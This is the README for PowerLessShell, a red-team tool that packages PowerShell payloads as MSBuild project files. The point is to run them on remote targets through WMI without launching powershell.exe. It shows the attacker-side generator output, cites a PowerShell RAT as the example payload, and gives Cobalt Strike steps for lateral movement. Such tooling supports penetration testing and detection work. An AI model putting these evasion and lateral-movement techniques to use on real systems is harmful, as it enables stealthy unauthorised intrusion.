 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawing powershell.exe

# Usage

Attacker side
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"



(Path to the PowerShell script)>>> powershell.ps1

(Path for the generated MsBuild out file)>>> payload.csproj


[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) By MrT-F

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
mkdir PowerLessShell
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git PowerLessShell
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```

# TODO 
* MsBuild renaming
* Delete payload
# Credit
Mr.Un1k0d3r RingZer0 Team 2017

